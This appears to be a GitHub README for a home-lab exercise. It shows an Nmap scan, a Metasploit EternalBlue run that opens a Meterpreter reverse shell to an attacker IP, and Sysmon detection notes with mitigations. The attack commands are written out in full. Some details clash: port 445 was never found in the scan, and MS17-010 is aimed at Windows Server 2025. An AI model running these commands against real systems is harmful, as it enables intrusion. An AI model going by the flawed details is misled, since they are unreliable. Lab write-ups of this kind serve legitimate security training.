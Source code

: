 # 🔎 Network Reconnaissance – Nmap Scan

## 🧠 Objective
Perform a network scan to identify live hosts, open ports, and potential vulnerabilities on the target server in an isolated lab environment.

---

## 🛠️ Tools Used
- `Nmap` v7.94
- Kali Linux 2024.2

---

## 🖥️ Target Information
- IP: `192.168.1.2` (Windows Server 2025)
- Subnet: `192.168.1.0/24`

---

## 🔍 Scan Commands & Results

### 1. Basic Host Discovery

```bash
nmap -sn 192.168.1.0/24
Output:

192.168.1.1 -> Netgear Router

192.168.1.2 -> Windows Server

192.168.1.10 -> Kali Linux

2. Port Scan
bash
Copy
Edit
nmap -sS -Pn -T4 -p- 192.168.1.2
Open Ports:

22 – SSH

80 – HTTP

3389 – RDP

📌 Notes
Windows Defender was active during scanning.

No IDS in place at this stage.

✅ Outcome
Initial footprinting complete. Discovered open ports for potential exploitation in the next phase.

💥 Exploitation – Metasploit CVE
🧠 Objective
Exploit an identified vulnerability on the Windows Server using Metasploit in a safe, controlled environment.

🛠️ Tools Used
Metasploit Framework

Kali Linux 2024.2

🎯 Target
OS: Windows Server 2025

IP: 192.168.1.2

Port: 445 (SMB vulnerability - simulated or real CVE)

🧪 Exploit Example
bash
Copy
Edit
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.2
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
run
Simulated successful shell access achieved.

🔒 Mitigation Notes
Ensure server is patched against known SMB vulnerabilities.

Disable unnecessary services (e.g., SMBv1).

✅ Outcome
Exploit successful in lab; documented post-exploitation actions for analysis.

🔍 Post-Exploitation – Sysmon Analysis
🧠 Objective
Analyze system activity using Sysmon logs after a successful exploitation attempt.

🛠️ Tools Used
Sysmon (Windows Server)

Event Viewer & Windows Event Logging

Kali Linux (for attack)

🧾 Key Observations
Event ID 1: Process Creation (cmd.exe, powershell.exe)

Event ID 3: Network Connection established from attacker IP (192.168.1.10)

Event ID 11: File creation in C:\Users\Public

📊 Detection Indicators
Indicator	Value
Source IP	192.168.1.10
Suspicious Process	powershell.exe
Malicious Payload	Meterpreter reverse shell
🛡️ Defensive Recommendations
Create Sysmon alerts for suspicious process chains.

Enable logging for PowerShell and Remote Desktop usage.

Integrate with SIEM for real-time alerting.

✅ Outcome
Sysmon successfully captured key post-exploitation events. Confirmed value in forensic detection.

🧾 Risk Assessment Report
